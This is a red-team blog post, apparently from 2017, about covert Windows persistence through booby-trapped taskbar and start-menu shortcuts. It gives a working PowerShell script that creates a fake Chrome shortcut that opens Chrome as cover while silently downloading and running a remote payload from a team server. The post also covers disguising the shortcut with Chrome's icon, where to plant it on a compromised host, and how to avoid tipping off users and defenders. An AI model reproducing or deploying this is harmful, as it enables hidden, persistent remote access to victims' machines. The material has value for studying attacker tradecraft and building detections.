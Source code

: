 ```yaml
---
layout: post
title: Sticky LNKz
date: 2017-08-15
excerpt: "A post about User-Driven persistence using common taskbar and startmenu shortcuts"
tags: [persistence, redteam, cradles, payloads]
comments: false
---
```

# Intro
As a user in a corporate environment, what is one of the first things you do? After you get some coffee and have a chat with your co-workers about the latest news or some semi-personal event from the night before.. you log in. A good blue team will be looking to make sure when you log in there isn't some type of malware set up with persistence to run before you even hear that catchy windows logon tune. With programs like <a href="https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns" title="autoruns">**autoruns**</a> and well crafted detection methods from just about every security vendor, it is very likely a redteamer will get caught trying to drop persistence in the known and obvious locations.

## Disclaimer
As I introduce this concept, I apologize if anyone has already explored this method and might think I am blatantly plagurizing their work, I swear it is not my style. 

## User-Drive Persistence
I've seen several different methods of persistence that redteamers (and blackhats) often use to repop a shell on a device that gets shutdown everyday and rebooted the next morning. Senspost's <a href="https://www.twitter.com/_staaldraad">@_staaldraad</a> has a handy tool I was introduced to at Blackhat called <a href="https://github.com/sensepost/ruler">**"Ruler"**</a>. The original concept was once you had credz you could set up an outlook rule to pop a shell whenever needed by sending a triggered email that would delete itself and run a payload via an external webdev share. Genius!
### Subj: "bSpence love his shells"

One of the major limitations to this type of persistence is that you have to rely on some user interaction to generate your trigger and get the shell (ie. the user has to start an application). However, if you pick an application like Outlook or other commonly used standard applications, this can be a nice way to hide your shell popping payloads in plain sight, hidden from the user, and even better, hidden from the blue team.

I recently had an engagement with @SpecterOps in which @bluscreenofjeff and @enigma0x3 introduced to me some tradecraft payload cradles in which they use .LNK and .HTA files as links in their phishing emails to get initial breach shells. I don't like to name drop, but I'd be kind of a jerk without mentioning someone like @SubTee who's been the cradle Jedi master for a year or two now. Anyways, after playing with the cradles and thinking about how my blue team might react something slapped me in the face as I looked at the taskbar.
<figure>
	<a href="http://farm9.staticflickr.com/8426/7758832526_cc8f681e48_b.jpg"><img src="http://farm9.staticflickr.com/8426/7758832526_cc8f681e48_c.jpg"></a>
	<figcaption><a href="http://www.flickr.com/photos/80901381@N04/7758832526/" title="Morning Fog Emerging From Trees by A Guy Taking Pictures, on Flickr">Morning Fog Emerging From Trees by A Guy Taking Pictures, on Flickr</a>.</figcaption>
</figure>

<figure>
	<img src="/assets/img/taskbar.png">
	<figcaption>Ex: "My Current Taskbar Situation"</figcaption>
</figure>

## Introducing Sticky LNKz
The epiphany I had was that users often customize their user experience by creating Start Menu and Taskbar shortcuts to execute their favorited applications. The other thing users do is create desktop shortcuts, but I will talk about why the Start Menu and Taskbar are much more covert friendly. These shortcuts get saved on the filesystem as .LNK files since that is essentially what a shortcut is, a link to an executable.

## The Payload
Credit to @enigma0x3 for the original powershell LNK generation, below I've added a few things to retrofit this script for taskbar/startmenu usage. In the example below we will be using Google Chrome as a shortcut. Keep in mind this is post-exploitation work to establish User-Based Persistence.
{% highlight html %}
$LNKName = "C:\Users\<YOUR_USER>\Desktop\Google Chrome.lnk"
$BinaryPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$Arguments = "-nop -c `Start-Process chrome.exe; `$wc = New-Object System.Net.Webclient; `$wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko'); `$wc.proxy= [System.Net.WebRequest]::DefaultWebProxy; `$wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; IEX (`$wc.downloadstring('http://TEAMSERVER:80/URI'))"
$obj = New-Object -COM WScript.Shell
$link = $obj.CreateShortcut($LNKName)
$link.WindowStyle = '7'
$link.TargetPath = $BinaryPath
$link.Arguments = $Arguments
$link.IconLocation = "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe, 0";
$link.Save()
{% endhighlight %}
google here
Ex: "Google Chrome.lnk"
{: .mycenter} 
## Snippet Step-by-Step
The LNKName identifies the save location of the lnk you're generating. You want this to be named exactly like the a taskbar or start menu lnk might look. The BinaryPath establishes powershell.exe as the executable to run instead of the path to chrome.exe
{% highlight html %}
$LNKName = "C:\<DESIRED_LOCATION>\Google Chrome.lnk"
$BinaryPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
{% endhighlight %}
The first part of the command execution here is to start chrome.exe so the user gets an actual chrome popup and doesn't get suspicious that their shortcut didn't start as intended. This can be tricky and works depending on $PATH, but I've noticed putting the full path to the binary usually craps out the script. The second piece is your standard arguments to start a proxy aware shell using a CobaltStrike powershell web drive-by script that you've already hosted on your teamserver.
{% highlight html %}
$Arguments = "-nop -c `Start-Process chrome.exe; `$wc = New-Object System.Net.Webclient; `$wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko'); `$wc.proxy= [System.Net.WebRequest]::DefaultWebProxy; `$wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; IEX (`$wc.downloadstring('http://TEAMSERVER:80/URI'))"
{% endhighlight %}
The following are required to create the lnk and populate it with the information you've already defined.
{% highlight html %}
$obj = New-Object -COM WScript.Shell
$link = $obj.CreateShortcut($LNKName)
$link.WindowStyle = '7'
$link.TargetPath = $BinaryPath
$link.Arguments = $Arguments
{% endhighlight %}
The IconLocation here is essential to our .lnk remaining covert and not tipping off the user. Notice after the full path the ", 0". This tells the lnk to take the first icon populated in the chrome.exe binary. You can explore this manually by creating shortcuts and changing the icons, but I've pretty much seen 0 as the common choice. 
{% highlight html %}
$link.IconLocation = "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe, 0";
$link.Save()
{% endhighlight %}
icon here
Ex: "IconLocation from Chrome.exe"
{: .mycenter} 
## Save Location
You really have two options when generating the link. Locally on your lab machine and then uploading it to the below locations on the filesystem, or be bold and upload it directly to the compromised host in the start menu or taskbar locations.
## Task Bar
Windows 10/7
{% highlight html %}
%AppData%\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar
{% endhighlight %}
## Start Menu
Windows 10/7
{% highlight html %}
%AppData%\Microsoft\Windows\Start Menu
{% endhighlight %}
## Why No Desktop Love?
As I indicated before you *could* generate a lnk and put it on the user's desktop, but there is some OPSEC considerations that tip off the user. When hovering over the Desktop shortcut the "Location:<PATH_TO_EXECUTABLE>" is shown on hover. This will get you busted pretty quick if the user is paying attention. The taskbar and startmenu location for some reason do not have the same hovers, so the user will not really be tipped off unless he goes exploring the file locations above.

location here
Ex: "Location: powershell"
{: .mycenter}
## To-Do's
I'd really like to eventually have the time to put this in a Cobaltstrike Aggressor script. I've already started a preliminary script, but I've been a bit stuck on how to approach it. I figured I could use some common shortcut types like Google, IE, Outlook, etc.. but having aggressor tie it to a hosted payload has given me some problems. I know it can be done, but I just haven't had the time to dig into it.
The other nice feature I might do is create a powershell script with user-defined input that will generate the link of your choice, but again, this is on my list of things to do.

## Summary
There are many ways to establish persistence and while the most desired persistence is automated without user intervention sometimes you have to use covert methods like I outlined in this post. I realize it isn't the most sophisticated, but in a pinch it is handy tradecraft like this that might get you out of a bind if defenders start to crack down on known persistence locations.

If anyone has any comment or feedback regarding this post please look me up on twitter @bSpence7337. Thanks!